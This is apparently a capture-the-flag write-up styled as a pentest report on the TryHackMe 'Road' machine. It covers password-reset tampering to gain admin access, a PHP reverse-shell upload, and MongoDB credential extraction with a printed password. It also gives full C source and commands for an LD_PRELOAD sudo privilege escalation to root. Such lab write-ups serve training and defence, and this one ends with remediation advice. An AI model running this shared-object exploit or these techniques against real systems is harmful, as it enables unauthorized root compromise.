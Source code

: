 #  Pentest Report: TryHackMe — Road (Medium)

## 1. Introduction
- **Date:** 12.09.2025  
- **Pentester:** ad4pt  
- **Target IP:** xxx.xxx.xxx.xxx  
- **Goal:** Identify vulnerabilities, exploit them, and obtain root access.  

---

## 2. Executive Summary
The penetration test of the *Road (Medium)* machine revealed multiple misconfigurations and vulnerabilities that allowed us to escalate privileges from a low-privileged web user to full root control.  

- **Open ports:** 22 (SSH), 80 (HTTP)  
- **Exploitation:** File upload vulnerability + insecure password reset → gained admin access  
- **Privilege Escalation:** Credential harvesting via MongoDB, then LD_PRELOAD abuse → root access  
- **Impact:** Full compromise of the system  

**Recommendation:** Patch web application logic, restrict DB access, and harden sudo rules.  

---

## 3. Methodology
1. **Reconnaissance:** Nmap scanning of open ports and services  
2. **Web Enumeration:** Directory brute forcing, CMS analysis, and login page investigation  
3. **Exploitation:** Abuse of password reset and file upload for PHP reverse shell  
4. **Privilege Escalation:** MongoDB credential discovery, SSH access, LD_PRELOAD misconfiguration  
5. **Post-Exploitation:** Root shell and flag retrieval  

---

## 4. Findings & Exploitation

### 4.1 Nmap Scan
Command used:
```bash
sudo nmap -sC -sV -Pn -p- xxx.xxx.xxx.xxx
```

**Results:**
- 22/tcp → SSH  
- 80/tcp → HTTP  

---

### 4.2 Web Enumeration
- Discovered directories using gobuster:  
  - `/phpmyadmin`  
  - `/index.php`  
  - `/v2` → redirected to `/v2/admin/login.html`  

- Found **login panel** with registration option.  

---

### 4.3 Exploitation of Web Application
1. Registered a new user → accessed profile section.  
2. Found **file upload function** (image upload).  
3. Discovered email `admin@sky.thm`.  
4. Abused **password reset** with Burp Suite: changed email parameter to `admin@sky.thm` → gained **admin access**.  
5. Uploaded **PHP reverse shell** → found file in `/v2/profileimages/`.  
6. Accessed shell via:
```
http://xxx.xxx.xxx.xxx/v2/profileimages/shell.php
```
7. Obtained shell as `www-data`.

---

## 5. Privilege Escalation

### 5.1 From www-data to webdeveloper
- Uploaded and ran **LinPEAS**.  
- Found `/usr/bin/mongod` running.  
- Connected to MongoDB locally:  
  ```bash
  mongo
  show databases
  use backup
  db.user.find()
  ```
- Extracted credentials:  
  - **User:** webdeveloper  
  - **Pass:** BahamasChapp123!@#  

- Logged in via SSH as `webdeveloper`.

---

### 5.2 From webdeveloper to root
- Checked sudo privileges:
```bash
sudo -l
```
- Found `/usr/bin/sky_backup_utility` executable with **LD_PRELOAD** allowed.  
- Created malicious shared object `shell.c`:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```
- Compiled and executed:
```bash
gcc -fPIC -shared -o /tmp/shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility
```
- Gained **root shell**.

---

## 6. Proof of Compromise
```bash
cat /root/root.txt
```

---

## 7. Recommendations
- Disable password reset parameter manipulation → validate user email properly.  
- Restrict file upload (file type validation, no PHP execution).  
- Remove unnecessary services (MongoDB exposed locally).  
- Update sudoers configuration → remove `env_keep+=LD_PRELOAD`.  
- Apply least privilege principle for user accounts.  

---

## 8. Appendix
- Nmap scan output  
- Gobuster results  
- MongoDB dump evidence  
- C exploit code for LD_PRELOAD  
